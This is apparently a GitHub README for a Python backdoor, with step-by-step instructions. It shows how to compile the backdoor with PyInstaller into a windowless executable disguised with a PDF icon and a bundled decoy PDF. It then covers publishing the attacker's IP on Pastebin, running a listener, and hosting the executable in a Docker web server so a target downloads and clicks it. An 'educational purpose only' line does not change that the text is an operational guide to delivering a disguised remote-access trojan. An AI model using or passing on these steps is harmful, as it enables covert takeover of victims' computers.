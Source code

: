 # This Backdoor dosen't bypass windows defender and other AV's

For educational Purpose only
Dosen't matter if target dosen't have pyhton installed

You should have these requirements :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. Must have docker installed if using it

## Steps to use this backdoor :
1. ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   ```
   cd to that directory
   2. find your pyinstaller path and run :
    ```powershell
    C:\Users\username\Appdata\wherever\your\pyinstaller\is\there\pyintstaller.exe --add-data=sample.pdf:.  -—onefile -—noconsole --icon pdf.ico backdoor.py
    ```
   The created backdoor must be in your "dist" folder in that directory
   
3. Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
7. when target clicks backdoor, you get the connection

## Docker :
for a proper web server (lacking in windows) to host the backdoor.exe file use docker ( I know using Python webserver is more simpler but I am using something different )
steps:
1. cd to Docker directory
then run :
   ```
   docker build -t Dcoker .
   ```
2. Run the container
    ```
    docker run Dcoker
    ```
and then make the target go to <your_IP>:8080 in broser to download the ready-made .exe
